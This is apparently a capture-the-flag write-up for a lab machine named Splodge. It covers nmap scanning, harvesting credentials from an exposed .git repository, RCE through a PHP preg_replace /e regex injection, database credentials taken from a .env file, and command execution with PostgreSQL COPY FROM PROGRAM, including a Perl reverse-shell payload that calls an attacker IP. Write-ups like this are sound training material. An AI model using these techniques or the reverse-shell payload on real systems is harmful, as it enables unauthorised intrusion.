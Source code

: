 # Splodge

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.108
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:08 +08
Nmap scan report for 192.168.157.108
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste
5432/tcp open  postgresql
8080/tcp open  http-proxy
```

Did a detailed scan for the web ports too:

```
$ sudo nmap -p 80,1337,8080 -sC -sV --min-rate 3000 192.168.157.108     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:09 +08
Nmap scan report for 192.168.157.108
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-git: 
|   192.168.157.108:80/.git/
|     Git repository found!
|     .gitignore matched patterns 'bug' 'key'
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: initial commit 
|_    Project type: node.js application (guessed from .gitignore)
|_http-title: 403 Forbidden
1337/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Commando
8080/tcp open  http    nginx 1.16.1
|_http-title: Splodge | Home
|_http-server-header: nginx/1.16.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit
```

There's a `.git` repository.

### Git Repo --> Creds

I downloaded the `.git` repository and looked through the logs with `git log -p -2`. However, it was way too long for me to analyse. Instead, I checked out the repository and checked for passwords:

```
$ grep -R password                                                 
database/migrations/2020_10_10_015036_create_settings_table.php:            $table->string('password');
database/seeds/DatabaseSeeder.php:            'password' => 'SplodgeSplodgeSplodge'
```

### Web Enum + Source Code --> RCE

Port 80 just showed us a 403 page, which was not helpful. Port 1337 did show some potential for RCE:

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

However, I was unable to make anything happen. Port 8080 showed a blog page with an admin login:

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

We can login to the admin panel using `admin:SplodgeSplodgeSplodge`:

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

So now we know that the Git repository is for this application. This panel was rather interesting, because it has a 'Profanity Filter Regex' option, which I presume allows us to specify Regex strings within it.&#x20;

I was unable to find any source code for this Admin Panel specifically, but I can find some code to see what it does within `app/Http/Controllers`:

{% code title="PostController.php" %}
```php
public function comment(Request $request, Post $post)
    {
        error_reporting(E_ALL & ~E_NOTICE & ~E_DEPRECATED);
        $author = $request->input('commentAuthor');
        $message = $request->input('commentMessage');
        $settings = DB::table('settings')->first();
        $message = preg_replace($settings->filter, $settings->replacement, $message);
        DB::table('comments')->insert(['post_id' => $post->id, 'author' => $author, 'message' => $message]);
        $comments = DB::table('comments')->where('post_id', '=', $post->id)->get();
        return view('post', ['post' => $post, 'comments' => $comments]);
    }
```
{% endcode %}

It seems that there's a `preg_replace` function that replaces the regex matches with our replacement.&#x20;

Googling for PHP Regex exploits brings this up:

{% embed url="https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4" %}

From the article above, we can use regex of `/a/e` to inject PHP code. I tested this out:

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Afterwards, I sent one comment with the letter 'a' in it. When I did, I got a hit on my HTTP server:

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

We now have RCE over the machine, and we can easily get a reverse shell on port 8080:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PostgresSQL Creds --> User Shell

We spawned in the `/usr/share/nginx/html` folder, which had a `.env` file:

```
bash-4.2$ ls -al
total 180
drwxr-xr-x. 12   501 games   4096 Oct 17  2020 .
drwxr-xr-x.  5 root  root      49 Oct 17  2020 ..
-rw-r--r--.  1   501 games    362 Oct 17  2020 .env
drwxr-xr-x.  8 root  root     166 Oct 17  2020 .git
-rw-r--r--.  1   501 games    111 Jul  4  2017 .gitattributes
-rw-r--r--.  1   501 games    146 Jul  4  2017 .gitignore
drwxr-xr-x.  7 root  root      98 Oct 17  2020 app
-rwxr-xr-x.  1 root  root    1646 Jul  4  2017 artisan
drwxr-xr-x.  3 root  root      54 Oct 17  2020 bootstrap
-rw-r--r--.  1 root  root    1300 Jul  4  2017 composer.json
-rw-r--r--.  1 root  root  144904 Oct 11  2020 composer.lock
drwxr-xr-x.  2 root  root     209 Oct 17  2020 config
drwxr-xr-x.  5 root  root      90 Oct 17  2020 database
-rw-r--r--.  1 root  root    1043 Jul  4  2017 phpunit.xml
drwxr-xr-x.  3 root  root      71 Oct 17  2020 public
drwxr-xr-x.  5 root  root      45 Oct 17  2020 resources
drwxr-xr-x.  2 root  root      75 Oct 17  2020 routes
-rw-r--r--.  1 root  root     563 Jul  4  2017 server.php
drwxr-xr-x.  5 nginx nginx     46 Oct 17  2020 storage
drwxr-xr-x. 32 root  root    4096 Oct 11  2020 vendor

bash-4.2$ cat .env
APP_NAME=Splodge
APP_ENV=local
APP_KEY=base64:F9jFCNy0vJ1GhEsbf+PjmTSSHk8u741C5XNTN1Rguow=
APP_DEBUG=false
APP_LOG_LEVEL=info
APP_URL=http://splodge.offsec

DB_CONNECTION=pgsql
DB_HOST=127.0.0.1
DB_PORT=5432
DB_DATABASE=splodge
DB_USERNAME=postgres
DB_PASSWORD=PolicyWielderCandle120

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
QUEUE_DRIVER=sync
```

There's a database password there. We can then login with `psql` after fixing the `PATH` variable of this shell:

{% code overflow="wrap" %}
```
bash-4.2$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH

bash-4.2$ psql -U postgres -d splodge -h localhost
Password for user postgres: 
psql (12.4)
Type "help" for help.

splodge=# 
```
{% endcode %}

There's a feature within PostgreSQL that allows us to execute commands:

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

We can just get another reverse shell using this:

{% code overflow="wrap" %}
```sql
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.196:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

The payload is taken from Hacktricks.

### Root

User can run `bash` as `root`:

<figure><img src="../../../.gitbook/assets/image (16) (6).png" alt=""><figcaption></figcaption></figure>
